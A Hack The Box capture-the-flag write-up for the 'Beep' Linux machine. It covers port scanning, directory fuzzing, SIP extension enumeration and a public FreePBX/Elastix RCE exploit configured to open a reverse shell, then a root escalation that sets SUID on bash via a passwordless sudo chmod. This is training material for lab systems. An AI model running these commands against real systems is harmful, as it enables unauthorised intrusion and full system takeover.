

# Beep

| | |
|---|---|
| **OS** | Linux |
| **Difficulty** | Easy |
| **Topics** | Apache, PHP, Local File Inclusion, SMTP, Python |

---

## 📁 Folder Structure

- [`content/`](content/) — screenshots and inline references used in the write-up
- [`nmap/`](nmap/) — raw nmap output files
- [`exploit/`](exploit/) — exploit scripts, binaries, payloads, and other tools used

---

# Enumeration

## Nmap

```bash
sudo nmap -sS -p- --open --min-rate 5000 -Pn -n -vvv 10.10.10.7 -oN AllPorts
```

```bash
nmap -p 22,25,80,110,111,143,443,993,995,3306,4190,4445 -sCV -P -n 10.10.10.7 -oN FullScan
```



## Web Fuzzing

```bash
wfuzz -c -t 200 --hc=404 -f wfuzz-scan,raw -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt https://10.10.10.7/FUZZ
```

**Directories found:** 


**Main Page**


Based on the directory ‘recordings’, the server may be vulnerable to some PBX Exploits

To find the specific version of PBX we will try to make a request to: `http://10.10.10.7/admin`


A prompt will appear asking for credentials, just click on ‘Cancel’.

It will take us to the dashboard panel (without authentication), we will be able to see the PBX Version:


# Initial Access:

*FreePBX 2.8 - Elastix pre-authenticated remote code execution exploit - PBX Exploit*

- Searching on Exploit-DB we will see the following exploit:

https://www.offensive-security.com/0day/freepbx_callmenum.py.txt

- However, we need to know a valid extension in order to successfully exploit this vulnerability. We can use SIPVicious Tools to enumerate the valid extensions. Check here [[VoIP Enumeration]](https://www.notion.so/VoIP-Enumeration-e270d800cac04c94ab6faea78866e6f3?pvs=21)

- SIPVicious Enumeration:

```bash
sipvicious_svwar -e 100-900 -m INVITE 10.10.10.7
```

- We will find the extension ‘233’ available


- Modify the exploit adding the extension, the listener IP, listener port and target IP:

```python
rhost="10.10.10.7"
lhost="10.10.16.12"
lport=443
extension="233"
```

- Finally, execute it and wait for the reverse shell (start a listener ncat on port 443).
- We will get a reverse shell as ‘elastix’ user.

# Privilege Escalation:

- Once we got shell (asterix user), check the sudo permissions:
`sudo -l`

- We will see multiple sudo permissions, but the most interesting is the chmod privilege:
`(root) NOPASSWD: /bin/chmod`

*We can execute chmod as root without providing password*

- Just assing the SUID permission to /bin/bash using chmod as root:
`sudo chmod u+s /bin/bash`

- Launch the privilege bash:
`bash -p`

[Owned Beep from Hack The Box!](https://www.hackthebox.com/achievement/machine/906667/5)